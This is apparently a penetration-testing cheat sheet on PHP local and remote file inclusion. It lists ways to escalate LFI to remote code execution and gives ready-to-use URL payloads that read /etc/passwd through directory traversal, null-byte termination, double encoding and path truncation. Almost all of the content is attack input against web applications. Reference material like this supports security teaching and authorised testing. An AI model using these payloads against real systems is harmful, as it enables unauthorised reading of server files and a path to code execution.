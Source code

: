 # Checks
 - Basic LFI
 - Basic RFI
 - LFI / RFI using wrappers
 - LFI to RCE via /proc/*/fd
 - LFI to RCE via /proc/self/environ
 - LFI to RCE via upload
 - LFI to RCE via controlled log file
 - LFI to RCE via PHP sessions
 - LFI to RCE via credentials files

Note : The number of ways to exploit is huge, more details can be found here:
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

# Path Transversal Cheat Sheet (List of files)
#### WIndows
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#interesting-windows-files
- https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/

#### Linux
- https://gracefulsecurity.com/path-traversal-cheat-sheet-linux/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#interesting-linux-files

# LFI
### Basic LFI
In the following examples we include the /etc/passwd file, check the Directory & Path Traversal chapter for more interesting files.
```txt
http://example.com/index.php?page=../../../etc/passwd
```
### Null byte
warning In versions of PHP below 5.3.4 we can terminate with null byte.
```txt
http://example.com/index.php?page=../../../etc/passwd%00
```
### Double encoding
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### Path and dot truncation
On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.
```txt
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
